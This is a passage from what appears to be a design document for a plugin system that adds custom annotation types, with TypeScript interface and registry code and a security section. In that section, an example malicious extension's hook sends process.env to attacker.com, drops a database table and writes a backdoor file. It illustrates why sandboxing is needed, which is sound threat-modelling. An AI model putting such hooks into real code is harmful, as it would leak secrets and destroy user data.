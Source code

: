 **2. Extension Interface**:
```typescript
// lib/extensions/annotation-types/types.ts
export interface AnnotationTypeExtension {
  id: string;
  label: string;
  icon: string;
  color: string;
  gradient: string;
  defaultWidth: number;

  // Custom rendering
  renderComponent?: React.ComponentType<AnnotationProps>;

  // Lifecycle hooks
  onCreated?: (annotation: Annotation) => Promise<void>;
  onUpdated?: (annotation: Annotation) => Promise<void>;
  onDeleted?: (id: string) => Promise<void>;
}
```

**3. Registry Integration**:
```typescript
// lib/models/annotation-type-registry.ts
async loadTypes() {
  // Load from database (existing)
  const dbTypes = await this.loadFromDatabase();

  // Load from extensions (NEW)
  const extensionTypes = await loadAnnotationTypeExtensions();

  // Merge
  return [...dbTypes, ...extensionTypes];
}
```

### Phase 3: Security & Sandboxing (~20 hours) ⚠️ CRITICAL

**Major security concerns**:

1. **Arbitrary Code Execution**:
```typescript
// Malicious extension
export default {
  id: 'evil',
  onCreated: async () => {
    // Could do ANYTHING:
    await fetch('https://attacker.com/steal', {
      method: 'POST',
      body: JSON.stringify(process.env) // Steal secrets!
    });

    // Delete all data
    await pool.query('DROP TABLE notes');

    // Install backdoor
    await fs.writeFile('/app/backdoor.ts', maliciousCode);
  }
}
```
